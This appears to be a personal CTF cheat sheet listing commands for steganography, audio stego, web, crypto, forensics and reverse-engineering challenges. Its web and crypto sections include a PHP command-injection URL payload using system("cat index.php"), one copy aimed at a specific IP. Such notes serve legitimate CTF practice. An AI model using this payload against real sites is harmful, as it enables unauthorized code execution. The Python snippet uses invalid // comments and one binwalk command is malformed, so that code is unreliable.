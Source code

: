 # CTF

- [Steganography](#stenography)
  - [Steganography audio](#stenographyaudio)
- [Web](#web)
- [Cryptography](#crypto)
- [Forensics](#forensics)
- [Reverse Engineering](#rev)

## Steganography <a name="stenography"></a>

- ```steghide --extract -sf image.jpg -p <password>```
- ```stegcracker imag.png /user/share/wordlists/rockyou.txt```
- ```file image.png```
- ```strings image.png```
- ```pngcheck image.png```
- ```sudo apt install libimage-exiftool-perl -y```
  - ```exiftool image.png```
  - ```eog image.png```
- ```xxd image.png```
  - if you see IEND chunk in exiftool use this command.
- ```find | xargs cat | grep "find"``` //if you have lot of text file then you this
  - ```grep -rni "flag{.*}"```
- Download the stegsolve.jar in any GitHub
  - ```java -jar stegsolve.jar```
  - make sure that you give the permission. 
- [ZXing Decoder](https://zxing.org/w/decode.jspx)
  - If the image is QR code image
- ```sudo apt install ruby```
  - ```sudo gem install zsteg```
  - ```zsteg image.png``` or ```zsteg  -a image.png```
  - only for png image.
- ```binwalk -e image.png```
  - ```binwalk --dd = ".*" image.png```
- ```outguess -r image.png flag.txt```
  - for the LSB.
- [Unicode](https://330k.github.io/misc_tools/unicode_steganography.html) 
  - zero width space
- suspicious space and tabs in a given text file
![image](https://github.com/Chittu13/CTF/blob/main/image/space_tab.png)
  - python script to extract and convert from binary to ASCII and get  the flag.
``` python
def extract_and_convert(file_path):
    with open(file_path, 'rb') as file:
        data = file.read()

    result = ''
    for byte in data:
        if byte == 0x09:  // Tab character
            result += '0'
        elif byte == 0x20:  // Space character
            result += '1'
    
    return result

file_path = 'the_cs_dictionary.txt'

binary_string = extract_and_convert(file_path)

n = int(binary_string, 2)
print(n.to_bytes((n.bit_length() + 7) // 8, 'big').decode())

```
## Steganography audio <a name="stenographyaudio"></a>
- [Morsecode](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)
- [stegolsb](https://github.com/ragibson/Steganography.git)
  - If the audio is related to LSB
  - ```cd Steganography```
  - give the permission
  - ```python3 setup.py install```
  - ```stegolsb wavsteg -r -i file.wav -o flag.txt -n 2 -b 1000```




## Web <a name="web"></a>
- ```http://127.0.0.1:808/index.php?page=' and die(system("cat index.php")) or ' ```
  - if you want to read the index.php use this payload in the url "    ' and die(system("cat index.php")) or ' "
- ```curl -X POST --data hash=2196812e91c29df34f5e217cfd639881 "http://example.com:8080/admin.php"```
  - you use this if you found hash in the sorce page
- ```wget -m http://example.com:8080/```
  - here it will download the all the file in the website
  - ```grep -R "CTF{.*}"``` use this commond after download the all files

## Cryptography <a name="crypto"></a>
1. This is [Hill Cipher](https://www.dcode.fr/hill-cipher), see how it works or use an online decoder
```
-------------------------
|76 |101|115|116|101|114|
-------------------------
|32 |83 |97 |110|100|101|
-------------------------
|114|115|32 |115|104|111|
-------------------------
|117|108|100|32 |104|101|
-------------------------
|108|112|32 |121|111|117|
-------------------------
|32 |58 |41 |41 |41 |42 |
-------------------------

KLZCOUKTVOUWUKDOBGZVJIIIRGVHXCRQUCNOX_IBBL 
```
![image](https://github.com/Chittu13/CTF/blob/main/image/hill_cipher.png)
  - flag ```CTF{BTW_EXISTS_AN_INTERESTING_FILM_ABOUT_HILLS}```
2. http://62.173.140.174:46005/index.php?page=' and die(system("cat index.php")) or '
    - if the web is old version use this in the url
3. Replace small letters with A, capital letters with B
    - ```BA BAAB AAABABAAAAABB AAA BBBBAA BBABAAA BA ABBABAAAB AABAAAA AB AAAAAA AABABB BBAABBABBAABA```
    - [bacon-cipher](https://www.dcode.fr/bacon-cipher)
## Forensics <a name="forensics"></a>
- [outer space audio](https://github.com/colaclanth/sstv.git)
  - ```sudo python3 setup.py install```
  - ```sstv -d file.wav -o result.png```
  - if the hit is related about SSTV(slow scan TV)

## Reverse Engineering <a name="rev"></a>
- ```ltrace ./filename```
  - The file is executable_file so we use ./filename
- ```strace ./filename```
- [ghidra](https://github.com/NationalSecurityAgency/ghidra/releases)
  - Download the zip file from the above line```hidra_11.0.3_PUBLIC_20240410.zip```
